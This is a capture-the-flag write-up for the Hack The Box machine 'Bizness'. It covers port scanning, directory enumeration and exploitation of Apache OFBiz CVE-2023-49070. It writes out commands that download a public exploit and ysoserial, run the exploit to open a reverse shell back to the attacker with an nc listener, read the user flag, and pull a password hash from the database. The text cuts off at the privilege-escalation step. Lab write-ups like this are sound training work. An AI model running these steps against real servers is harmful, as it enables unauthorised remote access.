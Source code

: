 
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!


## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.


## Exploring the Vast Horizons of the Web .
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 

## Art of Exploitation: Navigating Security Challenges :
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."


_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag :

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN


